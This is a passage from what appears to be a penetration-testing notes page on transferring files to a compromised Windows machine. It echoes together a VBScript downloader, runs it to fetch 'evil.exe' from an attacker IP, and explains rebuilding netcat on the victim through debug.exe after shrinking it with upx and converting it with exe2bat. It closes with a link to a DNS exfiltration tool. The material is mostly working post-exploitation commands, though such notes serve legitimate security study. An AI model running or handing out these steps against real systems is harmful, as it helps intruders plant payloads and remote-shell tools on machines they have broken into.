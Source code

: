 ```bash
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

```bash
cscript wget.vbs http://10.11.0.5/evil.exe evil.exe
```

## Debug.exe

This is a crazy technique that works on Windows 32 bit machines. Basically the idea is to use the `debug.exe` program. It is used to inspect binaries, like a debugger. But it can also rebuild them from hex. So the idea is that we take a binaries, like `netcat`. And then disassemble it into hex, paste it into a file on the compromised machine, and then assemble it with `debug.exe`.

`Debug.exe` can only assemble 64 kb. So we need to use files smaller than that. We can use upx to compress it even more. So let's do that:

```
upx -9 nc.exe
```

Now it only weights 29 kb. Perfect. So now let's disassemble it:

```
wine exe2bat.exe nc.exe nc.txt
```

Now we just copy-paste the text into our windows-shell. And it will automatically create a file called nc.exe

## DNS

[https://github.com/62726164/dns-exfil](https://github.com/62726164/dns-exfil)
